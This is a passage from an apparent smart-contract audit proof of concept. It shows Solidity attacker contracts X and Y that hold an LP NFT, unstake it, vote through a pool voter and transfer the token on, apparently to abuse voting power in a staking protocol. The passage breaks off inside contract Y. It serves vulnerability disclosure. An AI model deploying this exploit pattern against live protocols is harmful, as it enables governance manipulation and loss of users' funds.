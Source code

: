 

## Proof of Concept
### X contract
```solidity
import {ILocker} from "../contracts/interfaces/ILocker.sol";
import {OmnichainStaking} from "../contracts/locker/OmnichainStaking.sol";
import {PoolVoter} from "../contracts/voter/PoolVoter.sol";

contract X {
    ILocker public lpLocker;
    OmnichainStaking public staking;
    PoolVoter public poolVoter;

    constructor(address _lpLocker, address _staking, address _poolVoter){
        lpLocker  = ILocker(_lpLocker);
        staking   = OmnichainStaking(_staking);
        poolVoter = PoolVoter(_poolVoter);
    }

    function onERC721Received(
        address,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        //lpLocker.safeTransferFrom(address(this), lpLocker, tokenId);

        return this.onERC721Received.selector;
    }

    // Unstake from omnichain staking
    function unstakeLP(uint256 tokenId) external { 
        staking.unstakeLP(tokenId);
    }
    // This allows me to send anywhere I want
    function send(address to, uint256 tokenId) external {
        lpLocker.safeTransferFrom(address(this), to, tokenId);
    }

    function vote(address[] calldata _poolVote,uint256[] calldata _weights) external {
        poolVoter.vote(_poolVote, _weights);
    }
}
```
### Y contract
```solidity
import {ILocker} from "../contracts/interfaces/ILocker.sol";
import {OmnichainStaking} from "../contracts/locker/OmnichainStaking.sol";
import {PoolVoter} from "../contracts/voter/PoolVoter.sol";

contract Y {
    ILocker public lpLocker;
    OmnichainStaking public staking;
    PoolVoter public poolVoter;

    constructor(address _lpLocker, address _staking, address _poolVoter){
        lpLocker  = ILocker(_lpLocker);
        staking   = OmnichainStaking(_staking);
        poolVoter = PoolVoter(_poolVoter);
    }

    function onERC721Received(
```